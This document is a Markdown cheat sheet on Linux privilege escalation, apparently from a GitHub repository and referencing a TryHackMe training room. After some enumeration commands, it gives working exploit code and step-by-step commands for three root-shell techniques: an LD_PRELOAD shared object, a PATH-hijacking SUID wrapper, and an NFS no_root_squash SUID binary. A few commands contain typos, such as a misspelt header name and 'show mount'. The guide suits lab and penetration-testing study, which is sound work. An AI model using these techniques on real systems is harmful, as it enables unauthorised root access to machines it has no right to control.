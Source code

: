 # Linux Privilege Escalation

*********************************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
*********************************************************************************

## Check Sudo Permissions for Current User

```
sudo -l
```
**************************************
## Check for Kernel Exploits

```
uname -r
```
```
lsb_release ‐a
```
**************************************
## Check for SUID or SGID Bits Set

```
find / -type f -perm -04000 -ls 2>/dev/null
```
SUID Only:
```
find / -perm -u=s -type f 2>/dev/null
```
**************************************
## Check Capabilities

```
getcap -r / 2>/dev/null
```
**************************************
## Check Cron Jobs

```
cat /etc/crontab
```
**************************************
## Leverage LD_PRELOAD

Check for LD_PRELOAD (with env_keep option)
```
sudo -l
```

Write a simple C code compiled as a share object (.so extension) file

* The C code will simply spawn a root shell and can be written as follows:
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
Save this code as shell.c and compile it using gcc into a shared object file using the following parameters
```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

Run the program by specifying the LD_PRELOAD option, as follows:
```
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
```
**************************************
## PATH

```
echo $PATH
```
* What folders are located under $PATH?
* Does your current user have write privileges for any of these folders?
* Can you modify $PATH?
* Is there a script/application you can start that will be affected by this vulnerability?

Example Script: 
```
#include<unlistd.h>
void main()
{ setuid(0);
  setgid(0);
  system("[BINARY]");
}
```
```
gcc path_exp.c -o path -w
```
```
chmod u+s path
```

Search for writable directories:
```
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
```
To make a writable directory under $PATH:
```
export PATH=/tmp:$PATH
```
```
cd /tmp
```
```
echo "/bin/bash/" > [BINARY]
```
```
chmod 777 [BINARY]
```
```
./path
```
**************************************
## Network File Sharing (NFS)

If the “no_root_squash” option is present on a writable share, we can create an executable with SUID bit set and run it on the target system.
```
cat /etc/exports
```

Enumerate mountable shares:
```
show mount -e [TARGET-IP]
```

Mount one of the “no_root_squash” shares to attack machine and start building executable:
```
mkdir /tmp/[YOUR-DIRECTORY]
```
```
mount -o rw [TARGET-IP]:[SHARE-DIRECTORY] /tmp/[YOUR-DIRECTORY]
```

Set SUID bits with a simple executable that will run /bin/bash on the target system: (nfs.c)
```
int main()
{ setgid(0);
  setuid(0);
  system("/bin/bash");
  return 0;
}
```

Compile the code:
```
gcc nfs.c -o nfs -w
```
```
chmod +s nfs
```
```
./nfs
```

**************************************
## Reference
* https://tryhackme.com/room/linprivesc
